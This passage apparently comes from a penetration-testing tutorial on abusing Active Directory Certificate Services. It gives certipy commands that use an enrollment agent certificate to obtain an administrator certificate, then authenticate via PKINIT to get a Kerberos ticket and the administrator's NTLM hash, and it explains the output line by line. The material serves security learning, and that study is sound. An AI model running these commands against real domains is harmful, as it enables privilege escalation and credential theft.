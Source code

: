 
**Step 2: Use Agent Cert to Request Another Cert**

```bash
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'User' \
    -on-behalf-of 'CORP\administrator' \
    -pfx enrollmentagent.pfx \
    -dc-ip 192.168.1.10

# Output: administrator.pfx
```

---

**Step 3: Authenticate**

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```

---

## Certificate-Based Authentication

### Step 20: Understanding Certipy Auth Output

**When you run `certipy auth -pfx cert.pfx`, several things happen:**

```
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```

---

**Output Analysis:**

```
[*] Using principal: administrator@corp.local        ← 1
[*] Trying to get TGT...                             ← 2
[+] Got TGT                                          ← 3
[*] Saved credential cache to 'administrator.ccache' ← 4
[*] Trying to retrieve NT hash for 'administrator'   ← 5
[+] Got hash for 'administrator@corp.local': aad3... ← 6
```

**Step-by-Step:**

1. **Principal Extraction:** Reads SAN/UPN from certificate
2. **TGT Request (PKINIT):** Uses certificate for Kerberos authentication
3. **Success:** DC issued Ticket Granting Ticket
4. **Ticket Saved:** `.ccache` file contains Kerberos ticket
5. **Hash Retrieval Attempt:** Uses U2U (User-to-User) to get NTLM hash
6. **Hash Retrieved:** Full NTLM hash obtained

---
